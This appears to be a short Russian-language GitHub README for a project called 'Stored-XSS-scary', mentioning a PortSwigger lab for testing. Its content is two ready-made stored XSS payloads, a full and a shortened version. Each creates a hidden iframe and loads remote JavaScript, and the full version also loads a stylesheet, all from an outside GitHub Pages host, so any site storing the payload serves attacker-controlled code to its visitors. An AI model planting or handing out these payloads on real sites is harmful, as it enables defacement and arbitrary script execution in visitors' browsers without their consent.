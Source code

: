 # Stored-XSS-scary

Код сработает только при наличии уязвимости stored XSS + сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

------------------------------------------

Полная версия (музыка + CSS + доп. JS скрипты) [540 символов]:
> <script>var f=document.createElement("iframe");f.style.display="none";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s);var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r)}</script>

Сокращенная версия (только музыка):
> <script>var f=document.createElement("iframe");f.style.display="none";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s)}</script>
